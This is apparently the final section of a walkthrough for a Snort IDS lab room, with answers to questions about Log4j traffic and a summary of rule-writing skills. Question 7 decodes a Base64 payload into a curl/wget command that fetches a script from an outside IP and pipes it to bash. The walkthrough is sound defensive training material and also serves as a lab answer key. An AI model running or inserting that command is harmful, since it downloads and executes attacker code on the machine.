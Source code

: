### Question 7
**Q: Decode the encoded command. What is the attacker's command?**

**Encoded payload found:**
```
KGN1cmwgLXMgNDUuMTU1LjIwNS4yMzM6NTg3NC8xNjIuMC4yMjguMjUzOjgwfHx3Z2V0IC1xIC1PLSA0NS4xNTUuMjA1LjIzMzo1ODc0LzE2Mi4wLjIyOC4yNTM6ODApfGJhc2g=
```

Decode using Base64 decoder.

**Answer: (curl -s 45.155.205.233:5874/162.0.228.253:80||wget -q -O- 45.155.205.233:5874/162.0.228.253:80)|bash**

### Question 8
**Q: What is the CVSS v2 score of the Log4j vulnerability?**

Research Log4j vulnerability (CVE-2021-44228) in vulnerability databases.

**Answer: 9.3**

---

## Task 9: Conclusion

Congratulations! You have successfully completed the Snort Challenges 1 room. This walkthrough demonstrated practical application of Snort IDS rules for detecting various network protocols, analyzing malicious traffic, and performing forensic investigation on captured network data.

### Key Skills Developed

- **Custom Snort Rule Creation**: Writing effective detection rules with proper syntax
- **Network Protocol Analysis**: Deep understanding of HTTP, FTP, and SMB traffic patterns
- **File Signature Detection**: Identifying file types through hex signatures
- **Real-World Threat Investigation**: Analyzing MS17-010 and Log4j exploits
- **Log Analysis and Forensics**: Extracting meaningful information from network captures
- **Troubleshooting**: Debugging rule syntax and logical errors

### Important Snort Rule Components

- **Rule Headers**: `alert`, `log`, `pass` actions with protocol specifications
- **Direction Operators**: `->` (unidirectional), `<>` (bidirectional)
- **Content Matching**: Using `content` keyword with hex values `|XX XX XX|`
- **Message Parameters**: Descriptive alerts with `msg` keyword
- **Rule Identifiers**: Unique `sid` and `rev` values
- **Size Detection**: Using `dsize` for payload length analysis

### Network Security Insights

This challenge highlighted the importance of:
- Proper IDS rule management and testing
- Understanding protocol-specific attack vectors
- Recognizing common exploit patterns
- Maintaining updated rule sets for emerging threats
- Balancing detection sensitivity with false positive rates

The skills gained from this challenge are directly applicable to real-world network security monitoring, incident response, and threat hunting activities.
